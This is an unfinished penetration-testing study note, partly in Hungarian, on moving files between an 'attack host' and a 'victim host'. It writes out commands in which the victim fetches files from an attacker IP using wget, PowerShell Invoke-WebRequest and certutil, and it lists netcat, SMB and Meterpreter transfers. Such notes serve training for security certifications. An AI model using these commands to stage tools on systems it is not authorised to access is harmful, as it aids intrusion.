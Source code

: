 # TODO
* htba file transfers modult nezzuk meg
* ejpt repobol nezzuk meg a methodokat
# Basic file transfer methods
## Base64 encode - decode - copy/paste between machines
* Base64 encoding data on source machine
* Copy-pasting base64 string from source machine to dest machine
* Base64 decoding on destination machine (+ redirect output to file)
## HTTP file transfer
### From Attack host to Victim host (Linux)
* python web server + wget
<pre>
<b># attack machine</b>
$ python -m http.server 8000
<b># victim machine</b>
$ wget http://10.10.10.2:8000/file.txt
</pre>
### From Attack host to Victim host (Windows)
* python web server + powershell iwr
<pre>
<b># attack machine</b>
$ python -m http.server 8000
<b># victim machine</b>
PS> Invoke-WebRequest -Uri http://10.10.10.2:8000/file.txt -OutFile .\file.txt .\file.txt
</pre>
* python web server + certutil
<pre>
<b># attack machine</b>
$ python -m http.server 8000
<b># victim machine</b>
C:\> certutil -urlcache -f http://10.10.10.2:8000/file.txt > file.txt
</pre>
### From Victim host (Linux) to Attack host
* python web server + wget
### From Victim host (Windows) to Attack host
????
### Alternatives for tools
* alternatives for python: python3, python2.7, php, perl, ruby, ...
* alternatives for wget: curl, powershell iwr, certutil
## Netcat redirect file transfer
<pre>
dolgozzuk ki szepen
</pre>
## SMB file transfer
* itt jol le van irva az alja fele
  * van plusz lepes is (net view vagy valami hasonlo, amivel csekkolhato a gep, lehet hogy kell ez is a network discovery-hez...)
  * https://vk9-sec.com/microsoft-windows-server-2003-sp2-tcp-ip-ioctl-privilege-escalation-ms14-070-cve-2014-4076/
## SCP file transfer
## Meterpreter file transfer
## Other solutions
* RDP mounted drive
* HTTP file upload server hosted on attack machine + power shell client script
* Netcat pipes + redirect
* FTP
